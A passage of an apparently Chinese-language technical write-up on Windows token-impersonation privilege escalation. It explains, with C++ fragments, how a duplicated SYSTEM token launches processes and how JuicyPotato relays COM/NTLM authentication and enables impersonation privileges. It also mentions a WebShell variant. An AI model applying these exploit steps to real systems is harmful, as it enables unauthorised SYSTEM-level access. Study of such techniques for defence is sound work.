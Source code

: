 ```c++
if (g_dwSessionId)
    SetTokenInformation(hSystemTokenDup, TokenSessionId, &g_dwSessionId, sizeof(DWORD))
```

下面这一段做了一些创建新进程的细节配置，删掉也能执行

`WinSta0\\Default`是交互window station唯一的名字

```c++
dwCreationFlags = CREATE_UNICODE_ENVIRONMENT;
dwCreationFlags |= g_bInteractWithConsole ? 0 : CREATE_NEW_CONSOLE;
GetSystemDirectory(pwszCurrentDirectory, MAX_PATH);
CreateEnvironmentBlock(&lpEnvironment, hSystemTokenDup, FALSE);

STARTUPINFO si = { 0 };
si.cb = sizeof(STARTUPINFO);
si.lpDesktop = const_cast<wchar_t*>(L"WinSta0\\Default");
```

#### CreateProcessAsUserW & CreateProcessWithTokenW

最后调用`CreateProcessAsUserW`启动新进程

```c++
CreateProcessAsUserW(hSystemTokenDup, NULL, g_pwszCommandLine, NULL, NULL, g_bInteractWithConsole, dwCreationFlags, lpEnvironment, pwszCurrentDirectory, &si, &pi);
```

调用`CreateWithTokenW`也是一样

```c++
CreateProcessWithTokenW(hSystemTokenDup, 0, NULL, g_pwszCommandLine, dwCreationFlags, lpEnvironment, pwszCurrentDirectory, &si, &pi)
```

配置项一下几个必填，`CreateProcessWithTokenW`必定会启动新console，在某些操作时非常不方便，解决的话只能创建父子进程间的匿名管道接收输出（比如T00ls上WebShell版JuicyPotato就是这个原理）

```c++
CreateProcessAsUserW(hSystemTokenDup, NULL, g_pwszCommandLine, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
CreateProcessWithTokenW(hSystemTokenDup, 0, NULL, g_pwszCommandLine, 0, NULL, NULL, &si, &pi);
```

### JuicyPotato

JuicyPotato的流程相对更复杂

```c++
PotatoAPI* test = new PotatoAPI();

// 创建新线程监听，处理COM service的NTLM认证过程
test->startCOMListenerThread();

// 创建新线程同时中继到RPC
test->startRPCConnectionThread();
test->triggerDCOM();


// 获取当前进程token
OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &hToken);

// enable privilege
EnablePriv(hToken, SE_IMPERSONATE_NAME);
EnablePriv(hToken, SE_ASSIGNPRIMARYTOKEN_NAME);

// 通过SecurityContext获取access token
QuerySecurityContextToken(test->negotiator->phContext, &elevated_token);

```